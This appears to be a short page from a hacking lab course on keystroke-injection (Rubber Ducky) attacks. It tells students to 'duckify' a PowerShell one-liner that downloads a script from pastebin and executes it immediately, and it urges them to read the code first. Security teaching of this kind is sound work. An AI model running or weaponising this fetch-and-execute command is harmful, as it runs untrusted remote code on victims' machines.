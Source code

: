 ```yaml
---
layout: default
title: Encore!(2)
nav_order: 10
---
```


In our labs, we sent data to pastebin. But what if we used pastebin (or github) to host our malicious code?!
Duckify this powershell command:
```
iex((iwr http://pastebin.com/raw.php?i=sWacjDpa).content)
```
But before you do. 

PLEASE LOOK AT THE CODE AND UNDERSTAND IT!

Always be vigilant!
